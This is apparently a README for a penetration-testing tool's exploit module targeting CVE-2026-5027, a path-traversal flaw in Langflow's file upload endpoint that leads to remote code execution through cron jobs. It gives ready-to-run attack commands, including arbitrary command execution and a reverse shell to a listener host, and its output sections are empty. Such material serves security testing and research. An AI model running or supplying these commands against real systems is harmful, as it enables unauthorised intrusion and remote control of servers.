





# CVE Description
**CVE Description:** Authenticated remote code execution vulnerability that allows an attacker to execute arbitrary code under the context of the running Langflow process. The Langflow `POST /api/v2/files` endpoint does not sanitize the 'filename' parameter from the multipart form data, allowing an attacker to write files to arbitrary locations on the filesystem using path traversal sequences ('../').

Specially crafted files can be written as cron jobs on the Langflow server and then executed by calling the `/api/v2/mcp/servers` endpoint.

**Impacted Versions:** Versions 1.9.0 and below.


# Exploit Module

## Default Mode
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-5027
```

**NOTE:** Due to the nature of this vulnerability, exploit failure / success is not returned in the Langflow HTTP response, making the exploit for this vulnerability a blind command injection.




## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-5027 --command "echo 'pwned' > /tmp/pwned.txt"
```

**NOTE:** Due to the nature of this vulnerability, exploit failure / success is not returned in the Langflow HTTP response, making the exploit for this vulnerability a blind command injection.

### FlowHound CLI Output


### Docker Container Filesystem Artifact



## Reverse TCP Persistent Connection
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-5027 --reverse_shell 192.168.1.5:4444
```

### FlowHound CLI Output



### Ncat output

